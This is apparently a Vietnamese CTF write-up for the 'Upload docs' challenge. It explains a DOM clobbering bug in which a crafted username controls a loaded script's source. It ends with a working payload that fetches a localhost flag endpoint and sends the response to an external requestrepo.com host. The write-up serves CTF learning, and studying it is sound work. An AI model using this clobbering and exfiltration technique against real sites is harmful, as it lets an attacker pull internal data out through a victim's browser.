

## fortid ctf

### Upload docs

Description: There’s an `/admin?target_user={user_id}` endpoint that simulates what an admin would see on the site. From there, the admin can view target_user the links. There’s also a `/get_flag` endpoint, which appears to work only within the local network. Local port is 5000.

Đây là một challenge blackbox. Đầu tiên chúng ta sẽ thực hiện kiểm tra các chương trình bên client:

- Chương trình cho phép người dùng điền một username và một đường link, thứ sẽ bị xóa sau 1 phút.

- Người dùng submit thông tin qua POST /, request được gửi bao gồm `user_id` và thông tin

- `/admin?target_user={user_id}` đưa bot admin xem page của người dùng hiện tại. Ta không có source code nên chưa biết chi tiết bot hoạt động ra sao.

**TIến hành khai thác**

Ta tiến hành thử nghiệm một số cách như sau để tìm hiểu cách bot hoạt động

- Thử upload link webhook xem trả về ra sao,  kết quả là chỉ có 1 request DNS gửi đến.

- Thử nghiệm XSS nhưng không có vị trí cho phép inject do đã bị chương tình sanitize kĩ càng.

Tiếp đến ta thực hiện inspect code JS code client, code đã bị obfuscate. Đây là một gợi ý lớn cho việc ta nên khai thác tại đây. Sau khi deobucate ta được phần code JS như sau:

```javascript
var items = document.querySelectorAll("li");
items.forEach((I, E) => {
  document.querySelector("a[data-index=\"" + E.toString() + "\"]").id 
= document.getElementsByName(E.toString())[0].innerHTML;
});

(function () {
  var I;
  try {
    var E = Function("return (function() {}.constructor(\"return this\")( ));");
    I = E();
  } catch (h) {
    I = window;
  }
  I.setInterval(j, 1000);
})();

let backup = [].filter.constructor("return this")();
const {href} = backup["static/js/effect.js"] || 
{"href": "static/js/effect.js"};
const script = document.createElement("script");
script.src = href;
document.body.appendChild(script); 
```

Ta quan tâm tới sự xuất hiện của `innerHTML` ở đây. Đầu tiên `items` lấy các `<li>`, sau đó duyệt qua từng phần tử và chuyển đổi nó thành innerHTML. Ví dụ cụ thể:

```javascript
<ul id='links'>
  <li>
    <strong name="0">nglong05</strong> 
    <a data-index="0" href="https://fortid.com">https://fortid.com</a>
  </li>
  <li>
    <strong name="1">nglong055</strong> 
    <a data-index="1" href="https://fortid.com.vn">https://fortid.com.vn</a>
  </li>
</ul>
```

Sau khi qua phần code JS sẽ trở thành:

```javascript
<a data-index="0" href="https://fortid.com" id="nglong05">https://fortid.com</a>
<a data-index="1" href="https://fortid.com.vn" id="nglong055">https://fortid.com.vn</a>
```

Tiếp theo dòng code let backup = [].filter.constructor("return this")(); lấy object toàn cục. `[].filter.constructor` chính là `Function`. Gọi `Function("return this")()` trả về đối tượng global chính là là `window`. Vì vậy backup tương đương window.

Tiếp theo lấy thuộc tính `href` của `window["static/js/effect.js"]`. nếu không thì dùng chuỗi mặc định `"static/js/effect.js"`. Kết quả là `href` sẽ là một chuỗi URL đến file script cần tải.

TIếp theo gán thuộc tính `src` cho thẻ `<script>` bằng giá trị `href` thu được ở trên và chèn thẻ `<script>` vào body.

**Cách thức khai thác**

Việc đặt `id` từ username làm cho mọi username ta đặt đều có thuộc tính là id, nghĩa là có thể truy cập từ `window`. Bên cạnh đó, chương trình thực hiện gọi `window["static/js/effect.js"]` để appent vào script source. Hậu quả là, nếu một username mang giá trị  `static/js/effect.js` thì đồng nghĩa với việc ta có thể inject phần tử DOM tùy ý có thuộc tính href ta cấu hình vào trình duyệt. Đây là lỗ hổng DOM clobbering điển hình.

```javascript
(async () => {
  const targets = [
    'http://127.0.0.1:5000/get_flag',
    'http://127.1:5000/get_flag',
    'http://[::1]:5000/get_flag',
    'http://localhost:5000/get_flag',
  ];
  for (const u of targets) {
    try {
      const r = await fetch(u);
      if (r.ok) {
        const t = await r.text();
        new Image().src = 'https://h3h9ya7a.requestrepo.com/x?d=' + encodeURIComponent(t);
        break;
      }
    } catch (_) {}
  }
})();
```


